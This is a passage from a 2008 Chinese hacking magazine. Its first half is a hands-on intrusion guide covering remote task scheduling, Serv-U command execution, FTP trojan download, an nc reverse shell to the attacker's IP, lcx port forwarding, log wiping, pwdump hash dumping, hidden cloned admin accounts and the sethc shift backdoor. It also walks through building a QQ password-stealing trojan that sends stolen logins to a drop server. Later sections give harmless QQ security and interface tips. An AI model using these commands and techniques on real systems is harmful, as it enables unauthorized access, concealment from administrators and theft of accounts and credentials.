这里我用一个加testtt用户的批处理来说明问题！首先通过copy命令把它复制到服务器上，我们输入：copy testtt.bat \\192.168.1.107\c$（这里的testtt.bat位于C盘根目录下），返回的信息如图30所示。

接下来查看对方的时间，命令为：net time \\192.168.1.107，返回信息如图31所示。我们可以看到时间是下午的11:19分，那就指定服务器在23:22的时候执行testtt.bat文件，命令为：at \\192.168.1.107 23:22 c:\testtt.bat，成功的话会返回如图32所示的信息。

时间一到，到俺的虚拟机上一看，命令已经执行，因为出现了testtt用户，如图33所示。这样，我们就可以非常隐蔽地传送和执行某些程序了，呵呵……

## 9、其它

cacls这个命令在我们web入侵的时候用得比较多，比如在得到一个具有sa权限的注入点的时候，却没有办法向web服务器里面写文件，这时就需要把web服务器里的web路径改一下权限。比如输入命令：cacls c:\test /e /g everyone:f，其作用就是把c:\test目录赋予everyone的权限。

另外，还有set这个命令，它的作用是显示系统环境变量。比如输入命令set，回车后返回信息如图34所示，信息很详细吧？这样我们就不用费劲去查看这个服务器支不支持php，一看就知道我本机上装有php和mysql嘛，这个在入侵中提供的信息也很重要哦。

这里每个命令在介绍的时候都告诉了大家在什么情况下使用，比如ping这个命令，我们在确定一个服务器后就会使用到它。当然，能够灵活运用这些命令是需要经验的，只要大家不要把它们孤立地看待就行了。

## 二、IIS、FTP命令初探

说起IIS的命令，我认为对于入侵有用的主要还是IISReset命令，执行它不带任何参数就表示重启IIS服务，带上参数时，比如IISReset /reboot，则表示重启服务器。IISReset /status命令可以帮助我们查看Internet的服务状态，执行后返回信息如图35所示。从信息中我们可以得知，服务器不仅有www服务，还有FTP和HTTP SSL服务。

```text
C:\>iisreset /status
World Wide Web Publishing Service(W3SVC)的状态: 正运行
FTP Publishing Service(MSFTPSVC)的状态: 正运行
HTTP SSL<HTTPFilter>的状态: 正运行
```

对于FTP，大家都比较熟悉Serv-U这个软件，而且许多服务器上都有它的身影，下面我们通过FTP命令来为它加一个具有管理员权限的用户。

第一步当然得先进行FTP连接，使用的命令格式为：ftp 连接的IP地址，然后输入正确的用户名和密码即可成功连接，如图36所示。添加用户的命令为：quote site exec net user test test /add，成功则会返回如图37所示的提示信息。

```text
C:\>ftp ...103.153
Connected to ...103.153.
220 Serv-U FTP Server v6.2 for WinSock ready...
User <...103.153:(none)>: admin
331 User name okay, need password.
Password:
230 User logged in, proceed.
ftp>
```

```text
ftp> quote site exec net user test test /add
200 EXEC command successful (TID=33).
```

而且FTP还有一个对我们比较有用的功能，就是在远程计算机的cmd内下载FTP服务器里的文件。这里以我的虚拟机为例，为大家演示下载一个bat文件，当然这个bat文件是存在你的FTP服务器上面的。

首先得到虚拟机的一个shell，接下来在shell里依次执行如下命令（括号内为解释）：

- 1. echo open 192.168.1.107>>test.txt（登录FTP服务器）
- 2. echo test>>test.txt（用户名）
- 3. echo test>>test.txt（密码）
- 4. echo bin>>test.txt（开始）
- 5. echo get 1.bat>>test.txt（开始下载1.bat，实战当中可以改成你的木马远控）
- 6. echo bye>>test.txt（退出FTP服务器）

输完上面的命令后，会在我的虚拟机上生成一个test.txt文件，而这个文件里面的内容如下：

```text
open 192.168.1.107
test
test
bin
get 1.bat
bye
```

好了，现在我们在cmd shell里面执行FTP -s:test.txt，这个命令的意思是执行FTP命令，这一系列的操作显示如图38所示，成功后我们的批处理文件就躺在C盘根目录下了。

```text
C:\>echo open 192.168.1.107>>test.txt
C:\>echo test>>test.txt
C:\>echo test>>test.txt
C:\>echo bin>>test.txt
C:\>echo get 1.bat>>test.txt
C:\>echo bye>>test.txt
C:\>ftp -s:test.txt
ftp> open 192.168.1.107
Connected to 192.168.1.107.
220 Microsoft FTP Service
User <192.168.1.107:(none)>:
331 Password required for test.
230 User test logged in.
ftp> bin
200 Type set to I.
ftp> get 1.bat
200 PORT command successful.
150 Opening BINARY mode data connection for 1.bat (16 bytes).
226 Transfer complete.
ftp: 收到 16 字节，用时 0.02 Seconds 1.00 Kbytes/sec.
ftp> bye
221
```

这部分我认为最有用的就是FTP执行文件的命令使用，有时候用起来真的很不错。对于那些不能通过ipc$传文件的服务器来说，大家应该记住这个。

### 三、实用小工具

### 1、nc篇

有时候我们通过80端口入侵得到一个shell后，很多情况下都只能执行一下net user等简单的命令，却无法进行添加用户等操作，这是因为权限不够。如果我们在webshell执行lcx或xsniffer等工具，有时候很容易卡死，这个时候如果反弹一个cmd shell回来本地，然后在本地的cmd shell里执行，就不会出现卡死的情况了，而nc恰好可以做到这一点。

首先在本地用nc监听一个端口，命令为：nc -l -p 87，然后在shell里执行命令：c:\nc.exe -e e:\wwwroot\cmd.exe 192.168.1.106 87。执行上述命令后，cmd.exe的返回信息如图39所示。

```text
G:\武器>nc -l -p 87
Microsoft Windows XP [版本 5.2.3790]
(C) 版权所有 1985-2001 Microsoft Corp.
c:\windows\system32\inetsrv>
```

这里我有几点要解释下，在shell里面执行的命令 e:\wwwroot\cmd.exe 是我自己上传到服务器上面的，因为我的shell权限不够调用服务器上面的cmd.exe；192.168.1.106为我本机的IP，实战的时候换成你公网的IP即可；87为我反弹回来的端口。

接下来，在这里面操作是不是感觉像在自己的电脑上操作cmd一样呢？而且大家注意看，在web页面里执行 http://192.168.1.107/12.aspx?action=cmd 这样的命令时，页面会报错，如图40所示，这是我刚才用于转发nc的页面，现在却成这样了。至于这个反向连接的功能，其实我们也可以把它作为一个cmd shell后门来使用。

nc还有提交功能，大家所熟悉的“nc提交得shell”就是用的这个功能，命令格式为：nc -vv 192.168.1.107 80 < c:\test.txt，如果成功的话，就会得到一个shell。

另外，nc其实也有端口扫描的功能，不过会留下大量的痕迹，容易被细心的管理员发现，这个功能还是慎用。命令格式为：nc -nvv -w2 -z 192.168.1.107 80-90，意思是扫描192.168.1.107的80-90端口，执行命令后的信息返回如图41所示。

### 2、lcx篇

说起lcx，用得最多的就是内网转发。有时候我们拿到的服务器处于内网中（这个可以用ipconfig /all命令来进行判断），而且服务器是开了终端服务的，但是直连是连不上的，这时候lcx就会派上用场。

首先，我们在本机用lcx监听51端口，命令格式为：lcx -listen 51 3389，如图42所示。接着在服务器上使用 lcx -slave 192.168.1.106 54 192.168.1.107 3389 命令，如图43所示，然后在“开始”→“运行”里面输入mstsc，接着输入127.0.0.1，点击“连接”，就会出现终端窗口了，如图44所示。

怎么样？现在我们就连接到服务器的3389了，这个工具大家一定要熟练掌握，很多时候会用到的。

### 3、mt篇

这个小工具在很早以前就流行了，对于我们入侵过程中，特别是内网渗透过程中，作用还是比较大的，特别是其中的清除日志、检测gina木马、查询密码等功能。但其中的clone用户功能有时候虽然提示操作成功，实际上却没有成功，如果大家想clone用户的话，还可以直接手动操作。

那么清除日志怎么使用呢？输入mt -clog会有命令提示，你可以通过在-clog后面跟关键字进行选择要删除的内容。如图45所示，我们输入mt -clog sec是清除与安全相关的日志记录。

```text
C:\>mt -clog
Usage:
mt -clog <app|sec|sys|all> ---Clean Application|Security|System|All logs.
C:\>mt -clog sec
Clean EventLog : Security successful!
图45
```## 小命令，大作用——入侵渗透命令实用操作

那么检测 gina 木马的命令呢？我们输入：`mt -chkdll`，如果没有安装，则会返回如下信息：

```text
D:\>mt -chkdll
GinaDLL not found.
Winlogon Notification Package DLL:
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\crypt32chain crypt32.dll
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\cryptnet cryptnet.dll
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\cscdll cscdll.dll
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\ScCertProp wlnotify.dll
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\Schedule wlnotify.dll
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\ScInitfiy scinitfiy.dll
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\SensLogn WINotify.dll
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\termsrv wlnotify.dll
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\Notify\wlballoon wlnotify.dll
Please make sure if they were backdoors.
```

当然，如果安装了 gina，则会出现如下信息：

```text
D:\>mt -chkdll
GinaDLL exist:
HKLM\SOFTWARE\Microsoft\Windows NT\CurrentVersion\Winlogon\GinaDLL
c:\windows\system32\ntshell\gina.dll
```

`mt` 的另外一个功能是查询在线管理员密码，使用也很简单，不过条件有两个：一个是管理员在线，另一个条件就是只能在 NT/2K 下使用。我们输入命令：`mt -findpass`，如果是 WIN2003 的系统，返回信息如图46所示。


#### 4、pwdump、fgdump

很多人登录到一台服务器后想更长时间地控制它，往往是进行 clone 用户，但是会被一些有经验的管理员发现。如果我们知道了管理员的密码，这样是不是会更牢靠呢？那么这里就来介绍下抓 hash 的小命令。

我以 pwdump 作为演示，使用方法很简单，先抓一下本机的 hash 试试，输入命令：`pwdump 127.0.0.1 yoyo`，如图47所示，命令中的 yoyo 是本机具有管理员权限的用户。

有时候 pwdump 会出错，有些用户的 hash 抓不出来，那么怎么办呢？大家可以试一下其它工具，这里推荐 fgdump 和 gethashes，使用方法差不多，就不多演示了。

那么该如何抓取远程机器的 hash 呢？当然我们可以把工具传到服务器上去，然后抓取。那么可不可以在本机上运行软件而抓取远程机器的 hash 呢？pwdump 就可以做到这一点！不过首先我们得先和目标机器建立连接，也就是得到一个 cmd shell，或者通过 ipc$ 连过去。

```text
G:\武器\提权>pwdump 127.0.0.1 yoyo
pwdump6 Version 1.6.0 by fizzgig and the mighty group at foofus.net
Copyright 2007 foofus.net
This program is free software under the GNU General Public License Version 2 (GNU GPL), you can redistribute it and/or modify it under the terms of the GNU GPL, as published by the Free Software Foundation. NO WARRANTY, EXPRESSED OR IMPLIED, IS GRANTED WITH THIS PROGRAM. Please see the COPYING file included with this program and the GNU GPL for further details.
```

当然，lcx 大侠说过，用 `psexec \\ip -u username -p password cmd.exe` 进去也是为了得到服务器的一个 cmd shell。建立连接后，然后使用软件，具体操作过程及返回信息如图48所示。

```text
G:\武器\提权>net use \\192.168.1.107\ipc$ "test" /user:test
命令成功完成。
G:\武器\提权>pwdump 192.168.1.107
pwdump6 Version 1.6.0 by fizzgig and the mighty group at foofus.net
Copyright 2007 foofus.net
This program is free software under the GNU General Public License Version 2 (GNU GPL), you can redistribute it and/or modify it under the terms of the GNU GPL, as published by the Free Software Foundation. NO WARRANTY, EXPRESSED OR IMPLIED, IS GRANTED WITH THIS PROGRAM. Please see the COPYING file included with this program and the GNU GPL for further details.
Using pipe {9D9B1B3C-1837-4E85-A604-61D3DED3DDAA}
Key length is 16
Administrator:500:7D0A25CF8EA4B81AAD3B435B1404EE:2270D2EB171B38E6598728
```

因此我把这个工具的使用就没有放进来。

### 四、不得不看的小细节

### 1. 关于3389的开启

拿到服务器后自然是要试下开 3389，现在开 3389 的工具也挺多，方法也不少，我这里向大家介绍一个命令行下的开 3389 工具和一个利用注册表开 3389 的方法。

利用注册表开 3389 的方法只对 WIN2003 系统有效，并且不需要重启，代码如下：

```text
echo Windows Registry Editor Version 5.00>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server]>>3389.reg
echo "DenyTSConnections"=dword:00000000>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\Wds\rdpwd\Tds\tcp]>>3389.reg
echo "PortNumber"=dword:00000d3d>>3389.reg
echo [HKEY_LOCAL_MACHINE\SYSTEM\CurrentControlSet\Control\Terminal Server\WinStations\RDP-Tcp]>>3389.reg
echo "PortNumber"=dword:00000d3d>>3389.reg
regedit /s 3389.reg
```

这些命令放在哪里执行呢？有 Serv-U 的可以在那里执行，当然也可以在 cmd shell 那里执行，注意：这里是一句一句执行的。简单的命令大家都应该看得懂，我也就不多说了。执行上述命令后，WIN2003 服务器的 3389 端口就开了。

使用命令行开 3389 可以用大名鼎鼎的 wrsky.exe，而且不需要重启。我们在 cmd 下输入 `wrsky.exe` 会看到帮助信息，如图49所示。开终端端口的使用很简单，输入命令：`wrsky.exe -o 3389` 就可以了，如图50所示，开启成功了。


虽然我们被它开 3389 的功能所吸引，但其它功能也丝毫不逊色，比如 clone 用户功能和修改终端端口号功能，这里我就不演示了，很简单的。

#### 2. 关于在内网的嗅探

好多人在拿到一台服务器后就急于装上 cain，然后开始 sniffer，结果没过几天，自己辛苦拿到的服务器就挂了。有些人警惕性好，先装个木马，但同样会引起管理员的警觉。那么怎样才能把冒险的风险降低而又能同样达到效果呢？

第一步就是建 VPN，这个我就不详述了。然后拨上 VPN，在本地运行 cain，接着在嗅探的时候选择做 VPN 的那块网卡即可，这样我们就可以在本机上嗅探对方内网了。

### 3、如何保住肉鸡

这个话题其实有好多人讨论，我有一台肉鸡半年没去连接过，偶然有次突然想起了，连接一下，我那用户名还在，竟然还可以登录！其实建一个隐藏型的用户非常重要，其次就是要善于把握好上肉鸡的时间，再次就是日志的清理。

对于建隐藏用户，首先当然是建一个带有 `$` 符号、具有管理员权限的用户，比如使用命令：`net user test$ test /add`、`net localgroup administrators test$ /add`。接下来把注册表展开到 `HKEY_LOCAL_MACHINE\SAM\SAM`，默认情况下是无法读取到里面内容的，如图51所示。


要想看 SAM 键值里的内容也很简单，右键单击后，点击“权限”，然后给当前登录用户加上“完全控制”权限，操作成功后如图52所示。

这个时候按 F5 刷新一下后即可进入这个键值了。展开到 `\sam\account\users`，大家会看到好多用户，如图53所示。这里加隐藏用户一定要带上 `$` 这个符号，不然无法成功。users 下面还有一个 names 的键值，我们找到 test$ 这个用户，会在右面的那个框框里看见对应的类型值为 `0x3ef`，如图54所示。


再看刚才 names 目录树的上面，有个目录的名字后面三位也是 3ef，这个对应的就是 test$ 用户，而 administrator 对应的则是 1f4。

双击 `000001f4` 目录树，在右面的名称列的 `F` 上双击，显示如图55所示。接下来就是把这个 administrator 用户的 F 值的数据复制到 test$ 用户对应的 F 值里面去，然后保存。接着把 test$ 两项相关的键值导出注册表，如图56、图57所示。


接下来要做的就是到命令行下用 `net user test$ /del` 命令把 test$ 用户删除，然后再把刚才的两个注册表文件导入注册表。

到这里好多人以为都完了，其实不然，我们最后要做的一步就是把刚才的 SAM 键值的权限变回原样，这样会更加妥当。因为这样我们就不会在“用户管理”里面把自己给暴露出来了。当然，这里做的仅仅是其中一点，还有一点需要注意，了解查看下管理员上线的规律，大概摸清管理员什么时候会上线。我们可以用命令 `net user administrator` 来查看，执行后返回信息如图58所示。

大家注意到“上次登录”上面的时间没有？如果是最近才登录过的，那么大家要小心了，千万不要贸然连上去，这样很容易暴露自己。如果这个时间已经很久远了，说明这个服务器处于闲置状态，大家就可以随便逛逛了。

### 4、信息收集，不光是用工具

在一个很大的内网里时，无须依靠工具去扫描一些弱口令，其实自己动手找，就有可能找到很多有用的东西。比如站点的 conn.asp 文件、各类 txt 文档等都是搜寻的对象。有时候有的管理员会把登录其它 3389 的密码保存在本地，这个时候我们只需要把密码文件下载下来进行覆盖就行了。当然，这个光凭我这么说大家可能很难懂，但也是靠经验一点一点积累起来的。

### 5、shift 键探索

最近的 shift 后门很火，特别是在碰到 sa 权限的机器时。当我们无法执行系统命令或者存储过程被删除了，这个时候试一下 shift 也许就可以成功。调用 shift 键的代码只有两句：

```text
copy c:\windows\explorer.exe c:\windows\system32\sethc.exe
copy c:\windows\system32\sethc.exe c:\windows\system32\dllcache\sethc.exe
```

有一点要注意：在执行这个命令的时候，如果不加参数，会提示你覆盖不覆盖，如图59所示。这时候只需要在后面加一个参数 `-y` 即可覆盖而不需要提示，如图60所示。


另外，大家在入侵服务器的时候，不妨用终端连上去，然后连按五次 shift 键，运气好的话，服务器就会这样被我们拿下的哦。

这部分就讲这么多吧，我说的再多也只不过是我的经验而已，大家要在实战中多多体会，多多积累，这样才会有所提高。

## 有Q皆备——QQ技巧与保护


QQ 在中国已经日益成为许多朋友生活中不可或缺的一种东西，本章将奉献出许多 QQ 的经典技巧，让大家不仅更快乐地使用 QQ，也能更安全地使用 QQ。

### 第一部分 QQ 常见技巧

### 一、QQ号的盗取

盗 QQ 号现在已经不是什么专业技术了，网络上有许多的相关程序和教程。为了照顾新手，我们还是先给大家简单地来演示一下操作。

所需条件：金狐 QQ 2008 大盗 07-07 去后门版本，一个可以用于收信的 ASP 空间。

首先需要将“QQ.asp”文件传到 ASP 空间之中，这样方便我们收信，建议选择收费的 ASP 空间，可以保证网络速度及稳定性。有了 ASP 空间后，使用 FTP 软件（如 FlashFXP 等）连接到空间，将“QQ.asp”文件上传到空间的根目录下面，如图1。一般网站空间的根目录默认为“wwwroot”或者“web”等，大家可以依据自己空间的目录结构来选择。


这时轮到我们的主角“金狐QQ2008大盗”出场了，这里提示一下，现在很多人对其做了修改，所以我提供一下原版的 MD5 值，大家可以通过 HASH 等工具查看你所使用的该软件是否为原版。

> *小知识*  
> 金狐QQ2008大盗.exe  
> 大小：482816 字节  
> MD5：79594AE6A09FCDAA9B09B9C5A437058C  
> SHA1：442F2BA416C6056EA2A1FD583BE50FD57CFE0DC0  
> CRC32：D7DA54F3

运行金狐 QQ 2008 大盗，首先对收信地址进行修改，如图2。其他的功能大家可以根据自己的需要去选择，由于很多邮箱屏蔽了 QQ 号码等信息，导致无法正常收信，所以不推荐使用邮箱收信。


填写好收信地址之后我们先点击一下“发信测试”，大概 3 秒钟左右就会弹出一个对话框提示“网站发信完毕”，如图3。


这时打开我们的空间（不是 QQ 空间！是前面申请的 ASP 空间），会发现里面多出了一个“2008jhqqxx.txt”的文件，打开该文件可以看到一些信息，如“10001----123456----会员：是---IP：美国国防部网络(10.10.0.5)----2008-9-23 8:42:01”，这就表示我们已经能正常地收信。

接着点击金狐QQ2008大盗主界面上的“生成木马”，这样就可以生成一个木马服务端了，如图4。


最后只要别人运行了这个木马，就会把 QQ 号码、QQ 密码还有登录地点的相关信息保存到你空间里的文件里，我们只要打开这个文件就可以看到了，如图5。


### 小提示

> 盗取别人 QQ 号是一种偷窃行为，请各位读者不要将此技术用于非法用途，我们应该从技术的角度来研究它，并做好防范。

利用工具盗号其实就这么简单，有兴趣的朋友可以去试试，但千万不要做违法的事情哦！

### 二、QQ号码的安全

以前许多人觉得，QQ 号码的安全并不算特别重要，被盗后再申请一个就是了。但随着 QQ 在日常生活中的普及，我们都使用它作为网络联系或者信息获取的工具，而且许多朋友也很费心地购买 Q 币来打扮 QQ 空间、QQ 秀等，在网络中突显自己的个性。这无形中使自己的 QQ 已经有了“超凡”的价值，成了生活中不可或缺的一部分。

当这样一个生活中的“必需品”被盗后，大家是否也很心痛呢？今天我就跟大家探讨一下如何提高 QQ 号码的安全性。

### 1、QQ密保卡

很多人可能听说过魔兽密保卡、网易将军令等，但是对于 QQ 密保卡还是有点陌生。其

## 非安全·黑客手册2008 第一增刊

其实这种QQ保护方式腾讯已经推出有一段时间了，只是用的人很少。

获取的途径：

第一种：到一些零售店购买，一般为30元的QQ密保卡（带有30元的QQ币）。

第二种：在网上获取一种电子QQ密保卡，只提供图片，没有实卡，推荐放在手机里面。

申请地址：https://mibaoka.qq.com/cgi-bin/get_free_mbk，先登录你的QQ号码，在出现的页面里点击“免费领取密保卡”即可，如图6。


关于QQ密保卡的绑定就不给大家阐述了，非常简单，按照相关提示输入“序列号”还有坐标所对应的数字即可。

##### 2、第二代密码保护

申请地址：http://account.qq.com/，进入之后可以点击页面左边的“查看密保状态”查看自己现在的密码保护是第几代。如果是第一代，有些号码可以直接升级成第二代，而其它号码则需要“预设第二代密码保护”，具体操作请参见QQ网站。

## 3、QQ邮箱独立密码

QQ邮箱自从推出之后，可谓是方便了无数人，而且许多用户也将很多重要的信息保存在QQ邮箱里面。这可是非常危险的，要是号码一旦被盗，那么就可能造成损失。其实QQ邮箱是可以设置独立密码的，即使QQ被盗，别人也进不了我们的QQ邮箱。

打开http://mail.qq.com/，输入自己的QQ号和密码，进去之后点击最上方的“设置”，然后选择“账户”，如图7。


接着在“账户安全”处点击“设置独立密码”，输入一个与QQ不同的密码，再根据自己的情况选择一个保护模式即可。

## 4、QQ网络硬盘密码

QQ网络硬盘也是大家经常使用的一个功能，我们也可以对它单独设置密码。运行QQ，从左边控制面板选择“网络硬盘”，可以看到在最下面有个“>>”按钮，双击一下便可以出现设置“网络硬盘”的选项，如图8。这时候选择“密码设置”即可。


##### 5、账户限额设置

## 有Q皆备——QQ技巧与保护

如果你会用QQ账户进行一些QQ币等资金的消费，这种设置可以在一定程度上保护你的资金。打开http://pay.qq.com/，输入你的QQ号和密码进行登录，点击最上面的“我的账户”，在“Q币账户”处先点击“设置账户支付密码”。在设置完这一项后，还需要搞定两个账户限额的设定：“设置Q币账户消费限额”和“设置Q点账户消费限额”。

我们点击“设置Q币账户消费限额”，进入后可以根据自己的需要填写相关设置，如图9，最后点击“提交”即可设定成功。


“设置Q点账户消费限额”的操作方法也差不多，只不过是对Q点的设置，注意一些数字即可。要是不懂可以看看网页下方的提示，相信都可以很简单地搞定。

## 三、QQ图标攻略

很多人都在问，QQ的一些图标如何开通或者关闭。其实都很简单，这里就跟大家讲解一下部分图标的开通和关闭方式。

> 注：此资料为网络搜集，腾讯也会随时变化，如有与官方网站不同之处，请以官方为准！

### 1、QQ钻石类

- 开通方式：这些都是需要花钱的，点击还没有开通服务的灰色图标就会有相关提示，教你开通业务。
- 关闭方式：到期自动关闭，图标变灰。

##### 2、手机类

- (1) 手机QQ用户  
打开http://mobile.qq.com/，然后根据你所对应的手机型号下载手机QQ，接着在手机上安装并成功登录手机QQ后，图标就会点亮。注意：虽然手机QQ免费，但是会有GPRS流量产生。

- (2) 手机腾讯网  
直接用手机输入网址：3g.qq.com  
发短信获取登录地址：发送短信3G到10666226即可收到短信，选择网址即可进入（目前仅支持移动用户，并请确认手机允许接收服务信息）。  
关闭方式：打开http://service.qq.com/cgi-bin/askQuestion，接着输入你的QQ号码和密码登录，在“请输入您的问题”里输入“关闭QQ手机用户和手机腾讯网图标”，然后点“下一步”，再点“继续提问”。  
问题标题：关闭QQ手机用户和手机腾讯网图标  
产品类型：一定要选择“号码帮助”  
详细描述：自己随便填，感觉什么理由合适就写什么。注：一定要留下自己的QQ号码和QQ密码。

- (3) 超级QQ  
开通方式：打开http://mq.qq.com/，然后在左边选择“短信开通”或者“网站开通”。  
关闭方式：编写短信GBHQ发送到10661700进行关闭。

- (4) 短信超人  
开通方式：打开http://super.qq.com/，然后在左边选择“短信开通”或者“网站开通”。  
关闭方式：编写短信GBFHYL发送到10661700进行关闭。

- (5) 手机绑定  
开通方式：打开http://bd.qq.com然后登录，点击“绑定”按钮进行绑定操作。或者在QQ客户端，选择“菜单”－“手机玩QQ”－“绑定手机”。  
关闭方式：与开通时的操作一样，进入相关页面后进行注销或解绑即可。

- (6) WAPQQ  
开通方式：手机上操作  
移动用户：  
WAP订购：用手机登录移动梦网（http://wap.monternet.com），选择“交友”后进入第一页选择QQ聊天。  
短信点播方式：发送9999到106581672，收到一条免费PUSH后，选择地址订购QQ聊天业务。  
联通用户：用手机登录http://wap.uni-info.com.cn  
C网订购：互动视界－即时通讯－QQ聊天。  
G网订购：互动视界－社区－聊天约会－QQ聊天。  
关闭方式：三个月不登录，WAPQQ图标自动变灰。

##### 3、游戏类

- (1) QQ宠物：拥有QQ宠物即可（领养页面：http://pet.qq.com/web07/i_ado.shtml）  
关闭方式：直接饿死（残忍啊）

- (2) 自由幻想：需要在QQ自由幻想中注册拥有角色，达到10级并且完成转职任务后可点亮图标。

- (3) QQ堂：QQ堂积分达到500分以上即可。

- (4) QQ飞车：等级升到12级并同时积满1800酷币即可点亮。等级越高，图标也将变得越精致！

- (5) 穿越火线：图标可升级，按个人荣誉等级点亮对应图标（图标次序等级由低至高，详细情况可到http://cf.qq.com/act/a20080415honor/index.htm进行了解）。

- (6) QQ炫舞：在游戏内达到10等级后次日即可点亮炫舞图标（图标根据游戏角色等级而改变，详细情况可到http://x5.qq.com/act/a20080528dl/进行了解）。

- (7) DNF：通过QQ登录“地下城与勇士”游戏，并且游戏角色等级达到18级，即可在官网点亮图标（不同的级别会有不同的级别标识，详细情况可到http://dnf.qq.com/act/a20080613dltb/info.htm进行了解）。

升到20级的时候你必须得在线，这样才可以升级图标。

- (12) QQ华夏：QQ华夏游戏角色达到25级即可。

- (13) 穿越火线VIP用户：开通CF VIP用户服务即可（30元／月）。

- (14) 寻仙：暂时无法点亮。

- (15) QQ对战平台：暂时无法点亮。

- (16) QQ校友：暂时无法点亮。

QQ游戏的图标关闭方式：登录http://gcs.qq.com/gcs/提交“关闭图标”的问题。建议拨打游戏专线0755-86013666搞定，注意说明关闭游戏图标。

##### 4、产品类

- (1) 会员炫铃：开通会员服务后免费设置炫铃即可（此为QQ会员功能，开通会员后，进入http://qqrting.qq.com/index_web.html设置即可）。

- (2) Q歌Q魅：注册服务即可（目前“暂时停止”内测注册）。

- (3) QQ交友：注册QQ交友服务。  
关闭方式：登录http://jiaoyou.qq.com/，点击“我的城市”，进入“个人管理”。然后在左边的“资料管理”里找到“注销资料”，点击并确定即可。

- (4) 3DQQ秀：注册3DQQ秀后，在商城购买物品，保存形象即可。  
关闭方式：登录http://3d.qq.com，点击顶端菜单条的“我的3D秀／物品”，进入后在“用户状态”处找到“去掉我的3D标志”即可。

- (5) 视频标志：电脑已安装视频设备，或者使用第三方软件实现（有设备就有图标，没有便无）。

- (6) 超级旋风：QQ旋风积分达到500以上即可。

- (7) 腾讯图书：开通腾讯图书VIP服务即可（5元／月）。

- (8) QQ TALK：业务已下线，图标点亮规则撤消。  
注：QQ TALK图标点亮的用户在之前的规则里是不支持取消的，所以无法取消该图标。

- (9) QQ问问：登录QQ问问之后，成功提问过即可。  
关闭方式：进入http://wenwen.soso.com/，然后点“我的问问”，接着点“设置”，进入“常规”页面，选择“关闭”即可。

- (10) 腾讯拍拍网卖家：在拍拍网通过卖家认证后即可（黄色拍字图标）。

- (11) 腾讯拍拍网买家：在拍拍网上购买了1件商品并进行财付通付款即可（蓝色拍字图标）。  
关闭方式：登录http://my.paipai.com，选择右上角的“我的拍拍”，进入后选择左边菜单中的“QQ上的展示”，然后就可以对QQ上的买卖信息和“拍”字图标进行设置。

- (12) QQ相册：注册并上传照片即可。

- (13) QQ播客：登录Video页面设置即可。  
关闭方式：访问QQ播客主页http://v.qq.com，用QQ登录后点击上方“我的QQ播客”，进入后点击页面右侧的“编辑个人资料”，点击“熄灭”即可关闭QQ客户端的播客图标。

- (14) QQ空间：开通QQ空间即可。  
关闭方式：进入http://imgcache.qq.com/qzone/web/load_login_2.htm登录后即可申请关闭空间。

- (15) QQ邮箱：使用QQ邮箱即可，在邮箱页面的“设置”的“常规”项里可以选择“在QQ中点亮邮箱图标”。如果要关闭，只需要再次取消即可。

其中之一，Q吧图标就会变灭。

- (17) 财付通：成功注册财付通并进行充值后，或注册后产生相关财付通交易均可点亮（财付通注册页面：http://www.tenpay.com/）。  
关闭方式：如您需注销财付通账号，请先核实账户余额是否为0，同时确认无进行的交易单（包括C2C、B2C、转账、充值、提现、快速交易等）。符合以上条件，请进入https://www.tenpay.com/zft/cs/cs.shtml?tid=4提交相关资料申请注销。建议打电话搞定：0755-83765566-7。

- (18) QQLive：使用后达到三颗星星级别以上即可。

- (19) QQ书签：书签公开收藏数达到或者超过10条即可。  
关闭方式：删除所有收藏即可。

- (20) QQ家园：使用QQ空间迷你屋即可。  
关闭方式：登录http://home.qq.com，在左边选择“取消客户端图标”即可。

- (21) 滔滔：成功上传头像获得叨客身份证；或成功邀请5名QQ好友加入滔滔且成为自己的叨友，并且要在滔滔的活跃天数达到15天。注：邀请的前提必须互为QQ好友，且不是自己的叨友！

- (22) QQ爱墙：QQ爱墙图标可通过用户间的赠送获得，获赠图标后将自动点亮爱墙图标。点亮爱墙图标后，还可获得系统赠送的5颗图标，用以赠送给其他爱墙用户，帮他人点亮图标。QQ爱墙图标有效期为2个月。点亮图标后，每购买一张爱墙字条背景，即可将图标点亮时间延长2个月。

- (23) QQ音信：使用1次QQ音信业务；或找到1位已经点亮QQ音信图标的用户，让他赠送一颗音信图标，获得赠送图标后，即可自动点亮QQ音信图标了。每使用一次音信业务，即可将图标点亮时间延长2个月。

## 第二部分 打造个性化的QQ

#### 一、去掉广告及搜索条

### 1、去掉QQ广告

QQ聊天窗口右上角的广告虽然不影响我们的使用，但是有的时候还是比较碍眼，如图10，这里就教大家如何去掉这个广告。


首先找到QQ安装目录中“NewSkins\QQ2008\IMSkin”下的IMSkin.ini文件，一般QQ2008默认安装在C:\Program Files\Tencent\QQ\NewSkins\QQ2008\IMSkin；QQ2007默认安装在C:\Program Files\Tencent\QQ\NewSkins\QQ2007。找到“IMSkin.ini”文件后，双击用记事本打开，按键盘上的CTRL+F快捷键准备进行查找修改。

先搜索“rightSpace”，将“rightSpace=0”改为“rightSpace=-242”（注意242前面有个减号）；然后再搜索“menuShowBand”，将“menuShowBand = 1”改为“menuShowBand = 0”（记住空格绝对不能去掉）。

重新启动QQ，你再次进行聊天的时候就会发现已经没有这个广告了，如图11。


### 2、去掉QQ的搜索条

QQ里面的那个QQ搜索条我一直没怎么用，如图12，干脆直接不让它显示吧！


步骤如下：

找到QQ安装目录“NewSkins\QQ2008”下的“VBScript.vbs”文件，然后用记事本打开，按CTRL+F搜索“ImSearchPlugin.bInside”，共有三处，把最后一处的“ImSearchPlugin.bInside = TRUE”修改为“ImSearchPlugin.bInside = FALSE”即可（注意中间的空格不要删除了），修改后的效果如图13。


## 三、修改QQ启动图片

